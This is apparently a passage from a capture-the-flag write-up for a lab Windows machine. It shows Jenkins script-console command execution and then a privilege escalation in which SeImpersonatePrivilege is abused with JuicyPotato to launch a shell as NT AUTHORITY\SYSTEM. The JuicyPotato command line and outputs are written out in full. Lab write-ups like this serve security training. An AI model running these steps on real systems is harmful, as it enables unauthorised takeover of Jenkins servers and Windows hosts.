 ```

println "return code: ${ proc.exitValue()}"
println "stderr: ${proc.err.text}"
println "stdout: ${proc.in.text}"
```
```
C:\Program Files (x86)\Jenkins>whoami

alfred\bruce
```
### PRIV ESC

```
C:\Windows\Tasks>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeDebugPrivilege                Debug programs                            Enabled 
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
```
With these privileges we can do a multitude of things. For this box we will just use the impersonate privilege to get a shell as SYSTEM using `JuicyPotato`.

First we can get the Windows version from `systeminfo`.
```
C:\Windows\Tasks>systeminfo
systeminfo

Host Name:                 ALFRED
OS Name:                   Microsoft Windows 7 Ultimate
```
Next we can find a CLSID from the juicy potato [github](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_7_Enterprise) and use it to impersonate SYSTEM.
```
C:\Windows\Tasks>C:\windows\tasks\juicy.exe -l 1337 -p C:\windows\tasks\shell.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```
After running we will have a shell on our listener.
```
C:\Windows\system32>whoami  

nt authority\system
```
